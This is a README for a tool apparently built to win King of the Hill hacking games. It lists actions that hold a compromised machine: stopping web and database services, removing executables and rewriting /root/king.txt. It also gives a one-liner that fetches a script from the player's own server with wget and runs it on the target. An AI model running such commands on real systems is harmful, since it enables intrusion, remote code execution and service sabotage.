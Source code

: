 # The KOTH Script


![King](king.png)

The KOTH Script is a powerful tool created by H3X-007 to ensure that you are the ultimate KING in King of the Hill challenges. It automates various actions and configurations to secure your position as the reigning champion.

## Features

- Sets the user nickname as the KING in the \`/root/king.txt\` file.
- Applies necessary patches to enhance security.
- Stops critical services like Tomcat, Nginx, and MariaDB.
- Restricts file permissions and removes certain executables.
- Monitors and updates the KING nickname in real-time.

## Usage

1. Step 1
    
       git clone https://github.com/H3X-007/KOTH-Scripts.git

2. Step 2
       
       cd KOTH-Script && python3 -m http.server 80

3. In KOTH Machine.
  
       wget http://YOUR-VPN-IP/KOTH.sh && chmod +x KOTH.sh && ./KOTH.sh

4. Enter your desired nickname when prompted.

5. Sit back and enjoy being the KING! The script will continuously update the KING nickname in the \`/root/king.txt\` file to maintain your dominance.

## Contributing

Contributions are welcome! If you have any suggestions, bug reports, or feature requests, please open an issue or submit a pull request.
